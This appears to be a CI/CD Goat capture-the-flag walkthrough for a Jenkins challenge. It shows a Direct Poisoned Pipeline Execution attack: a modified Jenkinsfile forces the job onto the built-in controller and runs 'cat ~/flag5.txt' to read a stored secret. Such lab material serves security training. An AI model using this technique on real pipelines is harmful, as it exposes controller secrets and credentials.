

[-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-04-Poisoned-Pipeline-Execution)

[-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-05-Insufficient-PBAC)

Execute the _cheshire-cat_ pipeline on the Jenkins Controller by executing a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack, and get the secret which is stored in the Controller’s file system.


1. Clone the _Wonderland/cheshire-cat_ repository.
2. Checkout to a new branch.

    ```shell
    git checkout -b challenge5
    ```


3. In the Jenkinsfile, instruct the pipeline to run on the Controller by specifying its default label - `built-in`, and print _flag5_ to the console output (or send it to a remote server).

    ```groovy
    pipeline {
        agent {label 'built-in'}
        environment {
            PROJECT = "sanic"
        }

        stages {
            stage ('Install_Requirements') {
                steps {
                    sh 'cat ~/flag5.txt'
                }
            }
        }

        post { 
            always { 
                cleanWs()
            }
        }
    }
    ```


4. Push the changes to the remote branch, and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the secret.

